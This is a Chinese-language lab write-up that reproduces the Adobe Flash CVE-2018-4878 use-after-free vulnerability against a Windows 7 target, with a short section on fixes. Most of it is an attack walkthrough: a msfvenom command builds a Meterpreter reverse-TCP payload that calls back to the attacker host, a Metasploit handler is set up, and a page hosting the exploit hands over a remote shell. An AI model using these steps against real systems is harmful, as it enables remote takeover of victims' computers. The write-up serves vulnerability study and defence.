

# [漏洞复现] CVE-2018-4878 Flash 0day

## 一、漏洞概述

2018年2月1号，Adobe官方发布安全通报（APSA18-01），声明Adobe Flash 28.0.0.137及其之前的版本，存在高危漏洞（**CVE-2018-4878**）。

攻击者通过构造特殊的Flash链接，当用户用浏览器/邮件/Office访问此Flash链接时，会被**“远程代码执行”**，并且直接被getshell。

直到2018年2月5号，Adboe才发布补丁来修复此0 day漏洞。


互联网上出现的基于此Flash 0day漏洞进行攻击的样本，其实在2017年底就已经由韩国计算机应急小组（**KR-CERT**）首次发现。

CVE-2018-4878与2017年10月发现的0Day 漏洞CVE-2017-11292一样，都位于Flash的com.adobe.tvsdk包中。CVE-2018-4878是一个UAF漏洞，需要借助强制GC或者刷新页面来触发该漏洞。

目前，全网已经有比较成熟的针对此Flash漏洞的利用代码，接下来，实验将复现整个过程。

## 二、实验环境

- **渗透机**：Kali 
  - ip：==192.168.0.91==
  - 版本：kali-linux-2019.2-amd64.iso
- **靶机**：Win7
  - ip：==192.168.0.131==
  - 版本：windows_7_ultimate_x64.iso
- **exp**：cve-2018-4878.py （代码见于附件）
- **flash**：flashplayer_activex_28.0.0.137.exe

## 三、实验过程

#### 1.使用msfvenom生成shell代码

- 生成代码，其中lhost为kali的ip地址，lport为自定义的端口号

```msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.0.91 lport=8888  -f  python>shellcode.txt ```


- 查看代码文件


#### 2. 将上述shellcode代码写入```CVE-2018-4878.py```文件


#### 3. python执行```CVE-2018-4878.py```文件


#### 4. Kali Linux开启Apache2服务，并将上面的2个文件放入/var/www/html目录中（apache web路径）


- 此时，Kali Linux上Web服务启动，并且具备```index2.html```这个页面。只要靶机启用flash并访问了这个页面，则可以直接被控制。

#### 5.Kali Linux开启Shell会话监听

```bash
#msfconsole启动
msfconsole
#使用handler监听模块  
msf > use exploit/multi/handler 
#回弹一个tcp连接  
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp 
#设置kali渗透机的ip地址  
msf exploit(handler) > set lhost 192.168.0.91 
#设置监听端口，这个需跟上面msfvenom设置的端口一致  
msf exploit(handler) > set lport 8888 
#开启监听，等待靶机上线 
msf exploit(handler) > exploit
```


#### 6.Windows7 安装flash插件，并用IE浏览器访问页面

- 安装flash


- IE访问``` 192.168.0.91/index2.html```



#### 7. Kali Linux 上获取meterpreter shell，并进行管理


- 实验至此完成

## 四、实验总结

可以看到，最终由于Flash存在CVE-2018-4878这个高危漏洞，导致Windows靶机访问含flash的页面时，直接被Kali Linux控制。真实环境下，很多黑客基于此Flash漏洞，结合社会工程学，例如将网页链接放置在诱导邮件中，欺骗大量用户点击，来达到最规模攻击效果。


## 五、漏洞修复

1. 直接到Adobe Flash官网，下载最新版本：[https://get.adobe.com/cn/flashplayer/](https://link.zhihu.com/?target=https%3A//get.adobe.com/cn/flashplayer/) 
2. 安装常见杀毒软件，开启实时防护和杀毒引擎实时升级。


